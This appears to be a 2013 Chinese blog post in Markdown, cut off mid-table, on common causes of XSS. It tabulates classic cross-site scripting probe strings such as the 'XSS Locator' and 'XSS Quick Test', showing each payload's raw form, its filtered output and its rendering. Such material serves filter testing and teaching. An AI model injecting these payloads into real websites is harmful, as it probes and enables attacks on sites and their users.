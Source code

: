 title: "常见XSS产生原因"
date: 2013-06-21 13:44:50
tags:
id: 282
comment: false
categories:
  - 编程学习
---

## Test

<table width="50%" style="table-layout:fixed;word-break: break-all; word-wrap: break-word;" cellspacing="0" cellpadding="2">
<thead>
<tr>
<th>Name</th>
<th width="30%">Raw</th>
<th>Output</th>
<th>Render</th>
</tr>
</thead>
<tbody>
<tr>
<td>XSS Locator</td>
<td>
<pre>';alert(String.fromCharCode( »
88,83,83))//\';alert(String. »
fromCharCode(88,83,83))//";a »
lert(String.fromCharCode(88, »
83,83))//\";alert(String.fro »
mCharCode(88,83,83))//--&gt;&lt;/S »
CRIPT&gt;"&gt;'&gt;&lt;SCRIPT&gt;alert(Stri »
ng.fromCharCode(88,83,83))&lt;/ »
SCRIPT&gt;=&amp;{}</pre>
</td>
<td>
<pre>';alert(String.fromCharCode( »
88,83,83))//\';alert(String. »
fromCharCode(88,83,83))//";a »
lert(String.fromCharCode(88, »
83,83))//\";alert(String.fro »
mCharCode(88,83,83))//--&amp;gt; »
"&amp;gt;'&amp;gt;=&amp;amp;{}</pre>
</td>
<td>
<div>';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//--&gt;"&gt;'&gt;=&amp;{}</div></td>
</tr>
<tr>
<td>XSS Quick Test</td>
<td>
<pre>'';!--"&lt;XSS&gt;=&amp;{()}</pre>
</td>
<td>
<pre>'';!--"=&amp;amp;{()}</pre>
</td>
<td>
<div>'';!--"=&amp;{()}</div></td>
</tr>
<tr>
<td>SCRIPT w/Alert()</td>
<td>